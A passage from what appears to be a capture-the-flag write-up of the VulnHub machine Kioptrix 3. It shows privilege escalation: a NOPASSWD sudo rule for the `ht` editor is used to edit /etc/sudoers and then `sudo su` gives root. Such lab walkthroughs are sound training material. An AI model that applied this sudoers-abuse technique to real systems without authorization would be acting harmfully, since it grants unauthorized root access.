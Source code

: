 Nice. Now let's see if we can run `ht` (mentioned in the CompanyPolicy.README file we found earlier) as sudo by checking via `sudo -l`:

```bash
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

Perfect, let's make sure our terminal is set correctly:
```bash
loneferret@Kioptrix3:~$ export TERM=xterm
```

Now we can use the `ht` text editor as root! The method I used to privesc is to edit the `/etc/sudoers` file and give us further permission. In this case I'll simply give us full rights to `/bin/su`.

![Editing `/etc/sudoers/`](/assets/img/VulnHub/Kioptrix1.2_11.PNG)

And now we can simply switch users to root:

```bash
loneferret@Kioptrix3:~$ sudo su
root@Kioptrix3:/home/loneferret# id
uid=0(root) gid=0(root) groups=0(root)
```
